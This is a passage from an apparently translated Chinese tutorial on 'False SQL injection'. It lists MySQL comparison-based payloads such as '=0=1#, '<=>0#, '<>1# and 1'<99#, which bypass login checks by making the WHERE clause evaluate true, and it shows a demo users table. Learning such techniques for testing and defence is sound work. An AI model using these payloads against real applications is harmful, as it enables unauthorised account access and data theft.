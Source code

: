```
'<1#

```

你不必只使用单一的数字。你可以像下面一样使用两个数字攻击。

```
1'<99#

```

Comparison operation 0=1 will be 0, the following operation result is true because of id=''=0(0=1). 比较操作“0=1”的结果将会是0，又因为id=''=0，所以以下的操作结果是真。

```
'=0=1#

```

此外，还可以使用一些比较动作能使得两边的值相等。

```
'<=>0#

```

像这样，如果你使用比较操作，你可以用额外的方式进行攻击。

```
'=0=1=1=1=1=1#
'=1<>1#
'<>1#
1'<>99999#
'!=2!=3!=4#

```

0x02 不同的SQL操作
=============

* * *

现在，你将开始理解False SQL injection。以下为MySQ操作，不是攻击语句。

```
mySQL> select * from users;
+-----+-----------+----------+
| num | id        | password |
+-----+-----------+----------+
|   1 | admin     | ad1234   |
|   2 | wh1ant    | wh1234   |
|   3 | secuholic | se1234   |
+-----+-----------+----------+
3 rows in set (0.01 sec)

```

毫无疑问，它显示了所有表中的返回内容。 以下是当你不输入任何值在id字段时的返回内容。
